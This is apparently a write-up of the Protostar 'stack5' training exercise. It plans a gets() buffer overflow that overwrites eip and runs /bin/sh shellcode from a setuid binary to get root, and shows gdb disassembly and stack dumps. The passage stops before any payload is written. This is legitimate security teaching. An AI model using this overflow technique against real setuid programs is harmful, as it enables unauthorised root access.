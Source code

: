 The goal of this level is to get the **root privilege**. But how can we do that? 

Since our program is really short, the only thing we could take advantage is **gets**. So, our logic here is to create a script (including the shellcode) that can overwrite the instruction pointer **eip** right before the **main** function returns, redirecting execution to our shellcode. But which shellcode should I use?

I did a quick check over the program properties by using **file** command:

``` shell
user@protostar:~$ file /opt/protostar/bin/stack5
/opt/protostar/bin/stack5: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.18, not stripped
```

As the binary has the `setuid` flag, any shell we spawn from it will run with **elevated privileges**. This means we can use shellcode to execute `/bin/sh` and gain root access.

First, I run the program in `gdb`.

``` shell
user@protostar:~$ gdb /opt/protostar/bin/stack5
(gdb) disassemble main
Dump of assembler code for function main:
0x080483c4 <main+0>:    push   %ebp
0x080483c5 <main+1>:    mov    %esp,%ebp
0x080483c7 <main+3>:    and    $0xfffffff0,%esp
0x080483ca <main+6>:    sub    $0x50,%esp
0x080483cd <main+9>:    lea    0x10(%esp),%eax
0x080483d1 <main+13>:   mov    %eax,(%esp)
0x080483d4 <main+16>:   call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:   leave
0x080483da <main+22>:   ret
End of assembler dump.
(gdb) break *0x080483da
Breakpoint 1 at 0x80483da: file stack5/stack5.c, line 11.
(gdb) define hook-stop
Type commands for definition of "hook-stop".
End with a line saying just "end".
>x/1i $eip
>x/8wx $esp
>end
(gdb) r
Starting program: /opt/protostar/bin/stack5
AAAA
0x80483da <main+22>:    ret
0xbffff7ac:     0xb7eadc76      0x00000001      0xbffff854      0xbffff85c
0xbffff7bc:     0xb7fe1848      0xbffff810      0xffffffff      0xb7ffeff4

Breakpoint 1, 0x080483da in main (argc=134513604, argv=0x1) at stack5/stack5.c:11
.....
(gdb) si
0xb7eadc76 <__libc_start_main+230>:     mov    %eax,(%esp)
0xbffff7b0:     0x00000001      0xbffff854      0xbffff85c      0xb7fe1848
0xbffff7c0:     0xbffff810      0xffffffff      0xb7ffeff4      0x08048232
__libc_start_main (main=0x80483c4 <main>, argc=1, ubp_av=0xbffff854, init=0x80483f0 <__libc_csu_init>, fini=0x80483e0 <__libc_csu_fini>,
    rtld_fini=0xb7ff1040 <_dl_fini>, stack_end=0xbffff84c) at libc-start.c:260
...
```
